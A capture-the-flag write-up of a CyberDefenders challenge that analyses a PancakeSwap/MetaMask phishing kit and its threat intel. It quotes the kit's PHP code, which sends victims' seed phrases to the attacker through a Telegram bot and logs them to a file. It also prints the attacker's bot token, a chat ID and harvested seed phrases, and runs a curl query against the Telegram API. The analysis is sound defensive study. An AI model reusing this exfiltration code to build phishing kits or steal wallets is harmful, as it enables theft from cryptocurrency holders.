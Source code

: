 # GrabThePhisher

## Scenario

In [this Cyberdefenders challenge](https://cyberdefenders.org/blueteam-ctf-challenges/95), an attacker compromised a server and impersonated <nolink>https://pancakeswap.finance</nolink>, a decentralised exchange native to BNB Chain, to host a phishing kit at <nolink>https://apankewk.soup.xyz/mainpage.php</nolink>. The attacker set it as an open directory with the file name "pankewk.zip". 

Provided the phishing kit, you as a soc analyst are requested to analyse it and do your threat intel homework.

## Tools used

* [Telegram API](https://core.telegram.org/bots/api#available-methods)

## Questions

***Q1 Which wallet is used for asking the seed phrase?***     

***Q2 What is the file name that has the code for the phishing kit?*** 

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk
$ ls
background1.jpg  background2.jpg  background.jpg  cgi-bin  favicon.ico  images  index.html  log  logo.png  metamask  _next  src
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk
$ cd metamask
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/metamask
$ ls
fonts  index.html  metamask.php
```

***Q3 In which language was the kit written?*** 

```text
php
```

***Q4 What service does the kit use to retrieve the victim's machine information?*** 

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/metamask
$ nano metamask.php
```

```text
<?php

$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
```

***Q5 How many seed phrases were already collected?***

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk
$ cd log
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/log
$ ls
log.txt
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/log
$ cat log.txt
number edge rebuild stomach review course sphere absurd memory among drastic total
bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

***Q6 Write down the seed phrase of the most recent phishing incident?*** 

```text
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

***Q7 Which medium had been used for credential dumping?*** 

***Q8 What is the token for the channel?*** 

***Q9 What is the chat ID of the phisher's channel?*** 

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/metamask
$ nano metamask.php
```

```text
sendTel($message);  

    function sendTel($message){
                $id = "5442785564"; 
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
                $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
                file_get_contents($filename);
        $_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";;
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);    

    }
```

***Q10 What are the allies of the phish kit developer?***

```text
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */
```

***Q11 What is the full name of the Phish Actor?***

***Q12 What is the username of the Phish Actor?*** 

```text
$ curl  https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564 | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   160  100   160    0     0    403      0 --:--:-- --:--:-- --:--:--   402
{
  "ok": true,
  "result": {
    "id": 5442785564,
    "first_name": "Marcus",
    "last_name": "Aurelius",
    "username": "pumpkinboii",
    "type": "private",
    "active_usernames": [
      "pumpkinboii"
    ]
  }
}
```
